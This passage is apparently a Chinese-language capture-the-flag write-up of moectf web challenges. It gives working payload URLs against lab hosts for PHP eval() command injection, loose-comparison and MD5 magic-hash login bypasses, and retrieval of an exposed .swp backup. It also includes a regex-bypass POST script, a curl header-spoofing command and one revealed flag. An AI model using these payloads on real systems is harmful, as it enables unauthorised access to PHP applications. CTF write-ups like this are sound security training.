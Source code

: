 这道题要用到`WireShark`...然后点开WireShark, 打开端口然后刷新页面, 然后在捕获的列表里面找一个HTTP 302, 然后双击查看详细信息, 就能找到`flag`了.

### 英国人

这道题很秀…. 用`nslookuptool`的在线查询网站可以查到`region.challenge.moectf.cn`的全球`dns`信息, 然后找到了域名在英国被解析的地址, 然后修改一下`hosts`, 唱跳rap篮球+F5, 就拿到`flag`了.

### Amazing_Eval

了解了一下`eval()`函数..

然后打开`http://39.108.11.206:10006/?cmd=‘echo “$flag”’`就好了.

### 今天你备份了嘛

这道题上网必应了一下, 然后打开`http://39.108.11.206:10011/index.php.swp`, 就拿到`flag`了.

### PHP 弱类型

我真的想吐槽PHP不愧是被骂成全世界最懒烂的语言...

`http://39.108.11.206:10005/?a="0”`

php判断相等时, 字符串会被解释成0. 打开上面网址拿到`flag`.

### PHP_md5()

哇塞php是真的不安全...必应了一下php的MD5漏洞, 然后打开`http://39.108.11.206:10007/?username=240610708&passwd=QNKCDZO`, 就拿到了`flag`: `moectf{You_UnderStAnd_mD5_betTer!}`

这是因为`240610708`和`QNKCDZO`的MD5()计算结果竟然是一样的!

### 神奇的正则表达式

小小学了下正则表达式, 然后改了一下之前post用的脚本:

```python
import requests
datas = {'key':"aflagdddd/6/:skey"}
r = requests.post("http://39.108.11.206:10009/", data=datas)
print(r.text)
print(r.status_code)
```

成功通过.

### 头

这题真的狠...算了要文明...

用`curl`连试了好几次终于过了:

```bash
$ curl --header "Cookie: login=true" --header "User-Agent: PowerPC" --header "Accept: application/flag" -v -i http://47.101.32.101:10010/
```
